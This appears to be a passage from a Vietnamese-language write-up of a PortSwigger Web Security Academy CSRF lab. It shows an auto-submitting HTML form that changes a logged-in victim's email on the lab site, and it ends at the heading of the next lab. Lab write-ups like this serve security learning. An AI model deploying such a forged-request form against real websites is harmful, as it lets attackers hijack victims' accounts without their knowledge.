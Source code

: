 ![](./img_csrf/csrf-2.1.png)

![](./img_csrf/csrf-2.2.png)

- Vậy tôi đã tạo một đoạn script như sau vào một website của tôi.

```javascript
<form action="https://0a1c00fa03e6bcc0c3b54ea8005400a1.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="admin__sasdf99@gmail.com" />
      <input type="hidden" name="csrf" value="uuh6DBaFVoGitn8Qv8qRc3u0vTQyk52p" />
    </form>
<script>
        document.forms[0].submit();
</script>
```

> ### **CSRF where token validation depends on token being present**
